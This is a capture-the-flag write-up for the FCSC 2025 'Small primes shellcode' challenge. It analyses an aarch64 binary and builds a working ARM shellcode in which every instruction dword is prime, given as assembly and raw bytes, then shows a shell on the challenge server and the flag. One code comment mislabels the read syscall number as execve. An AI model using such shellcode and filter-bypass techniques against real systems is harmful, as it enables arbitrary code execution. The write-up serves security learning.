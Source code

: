 # Small primes shellcode

This challenge is the fifth most solved pwn challenge at the 2025 edition of the FCSC. The only provided resources are an address and port and the copy of the binary to exploit.

## Playing with the service

```
➜  05-small-primes-shellcode nc chal.fcsc.fr 2101
hello, world
Instruction #0 [opcode = 0x6c6c6568] is not prime.
^C
➜  05-small-primes-shellcode nc chal.fcsc.fr 2101
abcd
Instruction #0 [opcode = 0x64636261] is not prime.
^C
```

It seems that the program expects the first dword to be a prime number.

## Binary analysis

First, let's notice than as opposed to the previous challenges, the provided binary is for target `aarch64`.

```
➜  05-small-primes-shellcode readelf -h small-primes-shellcode 
ELF Header:
  Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF64
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              DYN (Position-Independent Executable file)
  Machine:                           AArch64
  Version:                           0x1
  Entry point address:               0x800
  Start of program headers:          64 (bytes into file)
  Start of section headers:          68872 (bytes into file)
  Flags:                             0x0
  Size of this header:               64 (bytes)
  Size of program headers:           56 (bytes)
  Number of program headers:         9
  Size of section headers:           64 (bytes)
  Number of section headers:         29
  Section header string table index: 28
```

The binary has a single, small, main function. First, it allocates `0x400` bytes of memory with `RWX` protections.

![](./assets/00-block-0.png)

Then, it reads `0x400` bytes from user input to the allocated memory area.

![](./assets/01-block-1.png)

Finally, the program loops over every dword (4 bytes) of the input padded with zeros, and aborts if one of these dwords is not prime. Else, all registers are cleared and the given user input is executed.

![](./assets/02-block-2.png)

### tl;dr

We need to provide an ARM shellcode where every dword is a prime number.

## Solving

To solve this challenge, I wrote a small Rust program to check if the shellcodes I built were respecting this condition. As for the `bigorneau` challenge, my strategy was split in two stages: a first (restricted) stage shellcode to read a second stage shellcode (most likely, as always, `execve("/bin/sh", NULL, NULL)` with NOP padding).

### First stage shellcode

With the help of this little tool, I proceeded to fiddle around to find the optimal sequence of instructions. The first stage needs to read from stdin to the `mmap`ed region to overwrite the currently executed instructions.

Simply put, this first-stage shellcode should look something like
```
mov x8, 0x3f            // 0x3f = execve syscall number for aarch64-linux
mov x0, 0               // stdin
ldr x1, [sp, 0x20]      // (mmaped region address is at [sp + 0x30 - 0x10])
mov x2, <big value>     // Number of bytes to read
svc <dontcare>          // Usually svc 0, but the immediate value is usually ignored
```

However, this shellcode is absolutely not meeting the requirements. Running the tool yields

```
Shellcode = [e8, 07, 80, d2, 00, 00, 80, d2, e1, 13, 40, f9, 02, 40, 80, d2, 01, 00, 00, d4] = \xe8\x07\x80\xd2\x00\x00\x80\xd2\xe1\x13\x40\xf9\x02\x40\x80\xd2\x01\x00\x00\xd4

Instructions: 
d28007e8 - [e8, 07, 80, d2] - 0x1000: mov x8, #0x3f - NOT PRIME
d2800000 - [00, 00, 80, d2] - 0x1004: mov x0, #0 - NOT PRIME
f94013e1 - [e1, 13, 40, f9] - 0x1008: ldr x1, [sp, #0x20] - NOT PRIME
d2804002 - [02, 40, 80, d2] - 0x100c: mov x2, #0x200 - NOT PRIME
d4000001 - [01, 00, 00, d4] - 0x1010: svc #0 - NOT PRIME
```

As can be seen, instructions like `mov x2, <something>` will never work because ARM instructions are 4-byte aligned and the target registers is stored in the least significant bits, which means the instruction will always be even.

To bypass this limitation, I made heavy use of the `ldp` and  `stp` ARM instructions. These instructions allow to load/store pairs of registers. By never setting the first of this pair of registers to an even one, we can achieve our goal.

After a few random tries, I finally came up with the following shellcode:

```
// Nasty trick to do a "mov x8, 0x3f"
mov x5, 0x3f
stp x5, x2, [sp]
ldp x11, x8, [sp, -0x8]

// Nasty trick to do a "ldr x1, [sp, 0x20]" (buf is at [sp + 0x30 - 0x10])
ldr x13, [sp, 0x20]
stp x13, x6, [sp]
ldp x1, x9, [sp]

// Nasty trick to do a "mov x2, 0x202"
mov x3, 0x202
stp x3, x2, [sp]
ldp x23, x2, [sp, -0x8]

// Nasty trick to do a "mov x0, xzr"
stp xzr, x10, [sp]
ldp x7, x0, [sp, -0x8]

// Put 0x13 to have a prime number (immediate is ignored)
svc 0x13
```

Running it with the tool yields
```
Shellcode = [e5, 07, 80, d2, e5, 0b, 00, a9, eb, a3, 7f, a9, ed, 13, 40, f9, ed, 1b, 00, a9, e1, 27, 40, a9, 43, 40, 80, d2, e3, 0b, 00, a9, f7, 8b, 7f, a9, ff, 2b, 00, a9, e7, 83, 7f, a9, 61, 02, 00, d4] = \xe5\x07\x80\xd2\xe5\x0b\x00\xa9\xeb\xa3\x7f\xa9\xed\x13\x40\xf9\xed\x1b\x00\xa9\xe1\x27\x40\xa9\x43\x40\x80\xd2\xe3\x0b\x00\xa9\xf7\x8b\x7f\xa9\xff\x2b\x00\xa9\xe7\x83\x7f\xa9\x61\x02\x00\xd4

Instructions: 
d28007e5 - [e5, 07, 80, d2] - 0x1000: mov x5, #0x3f - PRIME
a9000be5 - [e5, 0b, 00, a9] - 0x1004: stp x5, x2, [sp] - PRIME
a97fa3eb - [eb, a3, 7f, a9] - 0x1008: ldp x11, x8, [sp, #-8] - PRIME
f94013ed - [ed, 13, 40, f9] - 0x100c: ldr x13, [sp, #0x20] - PRIME
a9001bed - [ed, 1b, 00, a9] - 0x1010: stp x13, x6, [sp] - PRIME
a94027e1 - [e1, 27, 40, a9] - 0x1014: ldp x1, x9, [sp] - PRIME
d2804043 - [43, 40, 80, d2] - 0x1018: mov x3, #0x202 - PRIME
a9000be3 - [e3, 0b, 00, a9] - 0x101c: stp x3, x2, [sp] - PRIME
a97f8bf7 - [f7, 8b, 7f, a9] - 0x1020: ldp x23, x2, [sp, #-8] - PRIME
a9002bff - [ff, 2b, 00, a9] - 0x1024: stp xzr, x10, [sp] - PRIME
a97f83e7 - [e7, 83, 7f, a9] - 0x1028: ldp x7, x0, [sp, #-8] - PRIME
d4000261 - [61, 02, 00, d4] - 0x102c: svc #0x13 - PRIME
```

## Result

Let's run the orchestrating script

```
➜  05-small-primes-shellcode python expl.py 
[+] Opening connection to chall.fcsc.fr on port 2101: Done
[*] Switching to interactive mode
$ ls
flag.txt
small-primes-shellcode
$ cat flag.txt
FCSC{90d9b12e9ac63770408a90f8cec117b317356f5b40b238cffeeccc9e41eb88dd}
```
